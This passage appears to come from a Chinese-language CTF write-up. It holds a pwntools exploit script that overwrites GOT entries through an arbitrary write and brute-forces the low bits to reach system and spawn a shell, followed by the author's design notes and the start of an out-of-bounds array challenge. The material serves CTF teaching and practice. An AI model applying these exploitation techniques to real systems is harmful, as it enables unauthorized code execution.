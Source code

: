 ```python
read_got=elf.got['read']
atoi_got=elf.got['atoi']
print hex(atoi_got)
def pwn():
    #io=remote('47.106.172.144',65003)
    ru('good')
    sn(p32(0x4011A9)) # main addr
    ru('luck! ')
    sn(str(exit_got))
    dbg()
    ru('good')
    sleep(0.1)
    sn('\x00\x00\xa0\xf3') # system
    ru('luck! ')
    sn(str(atoi_got-2)) # atoi

    ru('good')
    sn(p32(0)) # 
    sl(b'/bin/sh\x00')

    sl('ls')
    sl('ls')
    ru('flag')
    sl('cat flag')


    irt()
while True:
    try:
        # io=remote('47.106.172.144',65003)
        io=process('./reallNeedGoodLuck.1')
        #dbg()
        pwn()

    except:
        io.close()
        continue


```
## 总结
这道题和上道题利用方式其实差不多，只是这道题展现形式不一样，更直接的给出了任意地址写4字节，里用同样的方法进行爆破即可成功拿到shell。
## 出题思路

1. 利用任意地址写来修改setvbuf的偏移，使其末12位指向onegadget偏移，进行爆破。
2. 利用任意地址写来修改atoi的偏移，使其末12位指向system偏移，进行爆破。

# PWN -> iterator （数组无边界检查越界）
## 题目分析
题目没有开pie，环境仍然是2.23，运行程序:
```bash
----------
1. New phone list
2. show list item
3. edit list item
4. overwrite list
5. show all list
6. exit
----------
```